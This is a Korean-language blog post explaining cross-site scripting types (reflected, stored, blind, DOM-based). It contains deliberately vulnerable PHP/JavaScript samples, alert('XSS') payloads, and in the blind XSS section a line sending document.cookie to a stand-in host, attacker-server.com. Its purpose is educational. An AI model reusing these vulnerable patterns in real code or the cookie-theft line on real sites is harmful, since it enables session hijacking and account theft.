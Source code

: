 ```yaml
---
layout: post
title: Cross-Site Scripting(XSS)
description: About the XSS
date: 2024-11-12 19:10:00 +0900
categories: [Technical Concepts Summarized]
tags: [XSS]
pin: false
math: false
mermaid: false
image:
  path: commons/xss/title.webp
---
```

<!-- categories: [Technical Concepts Summarized, Technical Labs, Technical Terms, Useful Apps To Help With Technology] -->

## Overview
Cross-Site Scripting(XSS) 공격은 악성 스크립트가 정상적이고 신뢰할 수 있는 웹사이트에 삽입되는 인젝션 유형의 공격입니다. 이러한 공격이 성공하도록 허용하는 결함은 매우 널리 퍼져 있으며, 웹 애플리케이션이 사용자 입력을 검증하거나 인코딩하지 않고 출력에 사용하는 모든 곳에서 발생할 수 있습니다.

공격자는 XSS를 사용해 악성 스크립트를 아무것도 모르는 사용자에게 전송할 수 있습니다. 최종 사용자의 브라우저는 해당 스크립트가 신뢰할 수 없다는 것을 알 수 없기 때문에, 해당 스크립트를 실행하게 됩니다. 브라우저는 스크립트가 신뢰할 수 있는 소스로부터 온 것이라고 인식하기 때문에, 이 악성 스크립트는 브라우저에 의해 유지되고 있는 쿠키, 세션 토큰 또는 기타 민감한 정보에 접근할 수 있습니다. 또한 이러한 스크립트는 HTML 페이지의 내용을 재작성할 수도 있습니다.

<br>

### Reflected and Stored XSS Attacks
XSS 공격은 일반적으로 두 가지 유형으로 분류할 수 있습니다. reflected와 Stored입니다. 이 외에도 DOM 기반 XSS라는 세 번째 유형의 XSS 공격이 있습니다.

<br>

### Reflected XSS Attacks
반사형 XSS는 사용자의 요청을 통해 악성 스크립트가 웹 서버로 전송되고, 그 스크립트가 즉시 반사되어 사용자에게 전송될 때 발생합니다. 보통 URL 쿼리 파라미터를 통해 악성 스크립트를 전달합니다. 악성 스크립트가 서버에 저장되지 않고, 사용자 요청 시마다 서버에서 반사된다고 하여 Reflected XSS Attacks이라고 합니다. 비영구형(Non-Persistent) 또는 Type-I XSS라고도 불리며, 이 공격은 단일 요청/응답 사이클을 통해 수행됩니다.

#### Examples of Reflected XSS Attacks
1. GET method
```php
<?php
if (isset($_GET['name'])) {
    $name = $_GET['name'];
    echo "Hello, " . $name . "!";
}
?>
```
- 사용자가 URL의 name 파라미터에 값을 입력하면 그 값이 웹 페이지에 그대로 출력됩니다.
- 입력된 값이 HTML이나 JavaScript 코드로 해석될 수 있는 경우, 웹 서버가 이를 검증 없이 그대로 사용자에게 반사하기 때문에 XSS 공격이 발생할 수 있습니다.

    ```
    http://vulnerable-site.com/?name=<script>alert('XSS');</script>
    ```
    - 이 URL을 통해 웹사이트에 접근하면, name 파라미터로 전달된 스크립트가 페이지에 그대로 반사되며, 경고창(alert)이 뜨게 됩니다.
    - 사용자가 링크를 클릭하거나 직접 해당 URL을 입력하는 경우, XSS 공격이 발생합니다.

2. POST Method
```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $name = $_POST['name'];
    echo "Hello, " . $name . "!";
}
?>
```
- 사용자가 폼을 제출할 때 name 필드를 입력합니다.
- 서버는 이 입력 값을 검증 없이 HTML 페이지에 다시 출력합니다.

    ```
    <script>alert('XSS');</script>
    ```
    - 공격자는 다음과 같은 코드를 폼의 입력란에 입력할 수 있습니다.
    - 서버는 이 데이터를 반사하며, 사용자 브라우저에서 JavaScript 코드가 실행됩니다.

3. HTTP Header
```
<?php
$referer = $_SERVER['HTTP_REFERER'];
echo "You came from: " . $referer;
?>
```
- HTTP 요청 헤더의 Referer 값이 서버에 전달되고, 이를 검증 없이 출력하는 경우, 공격자가 Referer 헤더를 악성 스크립트로 설정하여 XSS 공격을 유도할 수 있습니다.

    ```
    Referer: <script>alert('XSS');</script>
    ```
    - Referer 헤더를 다음과 같이 설정하여 요청을 보낼 수 있습니다.
    - 서버는 이 값을 검증 없이 HTML에 삽입하고, 결과적으로 악성 스크립트가 실행됩니다.

<br>

### Stored XSS Attacks
삽입된 스크립트가 대상 서버에 영구적으로 저장되는 경우를 말합니다. 예를 들어, 데이터베이스, 메시지 포럼, 방문자 로그, 댓글 필드 등에 저장됩니다. 피해자는 저장된 정보를 요청할 때 서버로부터 악성 스크립트를 다시 받아옵니다. 영구형(Persistent) 또는 Type-II XSS라고도 불립니다.

#### Examples of Stored XSS Attacks
```php
<?php
// 데이터베이스 연결 (예제 코드에서는 간단히 가정)
$conn = new mysqli("localhost", "username", "password", "database");

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // 사용자로부터 댓글을 받아 저장 (취약한 코드)
    $comment = $_POST['comment'];
    $conn->query("INSERT INTO comments (content) VALUES ('$comment')");
}

// 저장된 모든 댓글을 표시
$result = $conn->query("SELECT content FROM comments");
while ($row = $result->fetch_assoc()) {
    echo "<p>" . $row['content'] . "</p>";
}
?>
```
- 사용자가 입력한 댓글을 데이터베이스에 저장하고, 저장된 댓글을 페이지에 표시합니다.

```
<script>alert('XSS');</script>
```
- 공격자는 댓글 입력란에 다음과 같이 악성 스크립트를 입력합니다.
- 서버는 이 악성 스크립트를 데이터베이스에 저장하고, 이후 페이지를 방문하는 모든 사용자에게 이를 그대로 보여줍니다.
- 페이지를 방문하는 사용자는 자신의 의지와 상관없이 **경고창(alert)**이 뜨는 것을 보게 되며, 더 악의적인 코드를 삽입하면 쿠키나 세션 정보를 탈취당할 수도 있습니다.
- 악성 스크립트가 서버에 저장되고, 여러 사용자에게 지속적으로 노출됩니다.

<br>

### Organize the differences
Reflected XSS:
- 사용자의 입력이 서버에서 즉시 반사되어 브라우저에 출력될 때 발생합니다.
- URL에 악성 스크립트를 포함시켜 사용자가 특정 URL을 방문하도록 유도하는 방식으로 주로 발생합니다.
- 공격은 일회성이며, 사용자가 특정 링크를 클릭해야 실행됩니다.

Stored XSS:
- 악성 스크립트가 서버에 영구적으로 저장되고, 이후 해당 데이터를 불러오는 모든 사용자가 영향을 받습니다.
- 예를 들어 게시판, 댓글 시스템, 사용자 프로필 등에 악성 스크립트를 삽입하는 방식으로 발생합니다.
- 공격은 영구적이며, 악성 스크립트가 서버에 저장되므로 여러 사용자에게 영향을 미칩니다.

<br>

### Blind Cross-site Scripting
영구형(Persistent) XSS의 한 형태입니다. 하지만 저장형 XSS와 다른 점은 공격자가 악성 스크립트를 저장한 후 그 스크립트가 실행되는 시점을 직접 확인하기 어렵다는 것입니다. 보통 이러한 XSS 공격은 관리자나 백엔드 사용자가 특정 데이터를 조회할 때 악성 스크립트가 실행되도록 유도하는 방식으로 이루어집니다.

Scenarios
- 공격자는 특정한 입력(예: 피드백 폼, 지원서, 고객 문의 등)을 통해 악성 스크립트를 서버에 저장합니다.
- 이후 관리자가 이를 조회하는 순간 악성 스크립트가 실행되며, 공격자에게 필요한 정보가 전달되거나 관리자 세션이 탈취됩니다.

Example
```php
<?php
// 데이터베이스 연결 (예제 코드에서는 간단히 가정)
$conn = new mysqli("localhost", "username", "password", "database");

// 고객 문의 저장
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $message = $_POST['message'];
    // 사용자 입력을 검증 없이 저장 (취약점)
    $conn->query("INSERT INTO inquiries (message) VALUES ('$message')");
}

// 관리자 페이지: 저장된 모든 문의 사항을 출력
$result = $conn->query("SELECT message FROM inquiries");
while ($row = $result->fetch_assoc()) {
    echo "<p>" . $row['message'] . "</p>";
}
?>
```

```javascript
new Image().src = "http://attacker-server.com/log?cookie=" + document.cookie;
```
- 공격자는 고객 문의 폼을 통해 <script> 태그가 포함된 메시지를 입력합니다.
- 서버는 이 메시지를 검증 없이 데이터베이스에 저장합니다.
- 관리자가 데이터를 조회할 때 스크립트 실행
- 이 스크립트는 공격자의 서버 (attacker-server.com)로 관리자의 세션 쿠키를 전송합니다. 


### DOM based XSS
클라이언트 측 자바스크립트가 브라우저에서 동적으로 생성한 DOM을 통해 악성 스크립트가 실행될 때 발생하는 취약점입니다. 이 공격은 주로 JavaScript를 통해 HTML 요소를 동적으로 조작할 때 발생합니다.

DOM 기반 XSS는 사용자가 제공한 데이터를 JavaScript가 검증 없이 DOM 요소로 반영할 때 발생합니다. 사용자가 조작한 URL의 파라미터나 해시 부분을 사용해 웹 페이지에서 악성 코드를 실행하게 만드는 방식입니다.

#### Examples of DOM based XSS
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>DOM XSS Example</title>
</head>
<body>
    <h1>Welcome to Our Site</h1>
    <div id="message"></div>
    
    <script>
        // URL의 'message' 파라미터를 가져와서 DOM에 추가하는 예제
        var urlParams = new URLSearchParams(window.location.search);
        var message = urlParams.get('message');
        
        if (message) {
            document.getElementById('message').innerHTML = message;
        }
    </script>
</body>
</html>
```
- 이 코드에서는 URL의 쿼리 파라미터 중 하나인 message 값을 가져와서 <div id="message"> 요소에 출력합니다.

```
http://example.com/?message=Hello%20World
```
- 예를 들어, 사용자가 다음과 같은 URL로 접근하면

```html
<div id="message">Hello World</div>
```
- 웹 페이지는 이렇게 렌더링되며, 정상적으로 작동합니다.

```
http://example.com/?message=<script>alert('XSS');</script>
```
- 그러나 공격자가 URL을 다음과 같이 조작할 경우
  
```html
<div id="message"><script>alert('XSS');</script></div>
```
- 웹 페이지는 이렇게 렌더링되며 이로 인해 **경고창(alert)**이 나타나며, 악성 코드가 실행됩니다.

<br>

### XSS Attack Consequences
XSS 공격의 결과는 저장형, 반사형, 또는 DOM 기반인지에 관계없이 동일합니다. 차이점은 페이로드가 서버에 도달하는 방식입니다. "읽기 전용" 사이트나 "브로슈어웨어(brochureware)" 사이트가 심각한 반사형 XSS 공격에 취약하지 않다고 생각해서는 안 됩니다. XSS는 최종 사용자에게 다양한 문제를 일으킬 수 있으며, 그 심각성은 단순한 불편함에서 계정 완전 탈취에 이르기까지 다양합니다. 가장 심각한 XSS 공격은 사용자의 세션 쿠키를 노출시켜, 공격자가 사용자의 세션을 가로채고 계정을 탈취할 수 있게 합니다.

다른 피해를 입히는 공격으로는 최종 사용자 파일 노출, 트로이 목마 프로그램 설치, 사용자를 다른 페이지나 사이트로 리디렉션, 또는 컨텐츠 수정 등이 있습니다.
